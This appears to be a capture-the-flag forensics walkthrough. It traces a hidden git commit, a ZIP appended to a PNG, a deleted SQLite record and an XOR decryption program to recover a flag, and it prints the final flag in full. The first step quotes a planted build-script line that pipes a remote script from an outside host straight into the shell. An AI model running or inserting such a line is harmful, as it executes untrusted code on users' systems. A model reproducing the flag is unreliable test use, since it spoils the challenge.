



01Start point: read the git history
- What I found: git log --all shows five reachable commits, all stamped 2026-10-15 11:53:46 +0100. git fsck --unreachable shows one more: commit c435f88 ("build: add telemetry opt-in check") plus its tree and a blob.
- What I found: its diff only adds curl -s http://198.51.100.9/telemetry-opt-in.sh | sh to build.sh. That is the "altered build history" decoy, a pipe-to-shell I only read and never ran or fetched.
- Thinking: the decoy is still useful, because an unreachable commit has its own timestamp. Its commit time is 1792061626 (%ct), which I noted for later.
- Result: a decoy script and a timestamp to keep.

02Pivot: the odd asset
- What I found: assets/telemetry_icon.png is a tiny PNG (IHDR 13, tEXt 27, IDAT 18, IEND) but is 23,008 bytes. The tEXt chunk is Provenance = 0f18e37122ddbcca, and 22,894 bytes follow IEND.
- What I found: those bytes start with PK 03 04, so a ZIP is appended to the PNG (a polyglot). It contains telemetry_cache.db (SQLite, 8192 bytes) and assetsignd (an ELF, 14,472 bytes).
- Thinking: a PNG that is 23 KB with a tiny image and 22,894 bytes after IEND means data is hidden after the end marker.
- Result: a SQLite file, an ELF, and a Provenance tag.
03Pivot: the database
- What I found: the live table build_secrets holds four obviously fake demo rows (aws_demo_key, grafana_token, npm_registry_token, pad_row_a), which are decoys.
- What I did: searched the raw pages for strings and found ci_provenance_seal, which is not in any live row. It is a deleted cell whose bytes survived in the page: a 36-byte blob eec4bf28579c1bc91a4aeb48b2d0bf862bf8fe0571cfbd4deda3bdef0d177e7c9aa4c401 (record header 04 00 31 54 means NULL id, text length 18, blob length 36).
- Thinking: a name that appears in the raw page but in no live row is a deleted record, and a 36-byte blob next to a flag of the right length looks like ciphertext.
- Result: 36 bytes of ciphertext.
04Decrypt: the program, statically only
- What I did: disassembled assetsignd (usage: tag, epoch, infile, outfile). It computes key = SHA-256(reverse(tag_bytes) || epoch as 8-byte little-endian) and out[i] = in[i] XOR key[i & 0x1f], so the key repeats every 32 bytes.
- What I found: with tag 0f18e37122ddbcca (from the PNG tEXt chunk) and epoch 1792061626 (the unreachable commit's timestamp), the first 32 bytes decode to CSCTF{p0lygl0t_r3qu13m_1d0a73980.
- Dead end: my first attempt only decoded 32 bytes because I applied a plain 32-byte keystream once. Reading the XOR loop showed the & 0x1f wrap, which supplies the last 4 bytes: 738}.
- What I did: the epoch had to be guessed. I tried values near the commit time and the exact commit timestamp produced readable text.
- Result: CSCTF{p0lygl0t_r3qu13m_1d0a73980738}

